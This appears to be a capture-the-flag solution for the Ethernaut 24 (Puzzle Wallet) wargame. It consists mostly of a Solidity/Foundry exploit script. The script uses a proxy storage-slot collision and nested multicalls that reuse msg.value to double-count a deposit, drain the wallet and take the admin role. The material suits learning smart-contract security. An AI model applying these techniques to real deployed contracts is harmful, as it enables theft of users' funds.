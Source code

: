 ### Ethernaut 24

Although the `multicall` function restricts calling `deposit` more than 1 time in one call, we can batch `multicall` itself in a multicall and deposit multiple times that way

```solidity
vm.startPrank(player);

level.proposeNewAdmin(player); // rewrite slot 0 on puzzlewallet
puzzleWallet.addToWhitelist(player);

bytes[] memory deposit = new bytes[](1);
deposit[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector); // deposit in a batch

bytes[] memory batch = new bytes[](2);
batch[0] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, deposit);
batch[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, deposit); // 2 batched multicalls with 1 deposit

puzzleWallet.multicall{value: 0.001 ether}(batch);

puzzleWallet.execute(player, 0.002 ether, "");

puzzleWallet.setMaxBalance(uint256(player));

vm.stopPrank();

assert(level.admin() == player);
```

### Ethernaut 25

